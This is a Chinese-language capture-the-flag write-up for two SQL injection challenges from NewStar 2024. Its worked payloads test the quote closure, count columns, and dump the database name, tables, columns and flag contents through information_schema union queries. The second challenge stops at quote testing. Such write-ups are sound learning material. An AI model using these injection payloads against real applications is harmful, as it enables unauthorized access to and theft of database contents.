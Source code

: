 ## **SQL 注入题 [NewStar 2024]**
### **谢谢皮蛋**
注入点很明显，测试闭合类型

```sql
1'
1"
#这两个都爆错，数字注入
```

表格两列

```sql
1 order by 2
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732543462247-85286679-00e1-441e-9f6e-001f3f7406df.png)

爆数据库和版本

```sql
-1 union select 1,group_concat(database(),version())
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732543657736-7ea29beb-216d-4b12-9863-9f8b31959935.png)爆表

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctf'
```

 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732543793413-8d3ea836-3f87-4ebd-8f1b-7098fc31894e.png)

爆字段

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g'
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732543870321-6e60ad5c-6ff4-476b-acfc-e22fb96ce8c1.png)

爆内容

```sql
-1 union select 1,group_concat(value) from Fl4g
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732543977745-197108eb-1ce0-454b-be2c-ed61a03169c9.png)

### blindsql1
字符注入，判断闭合类型

```sql
#有回显
Alice'#
#无回显
Alice"#
#单引号闭合
```
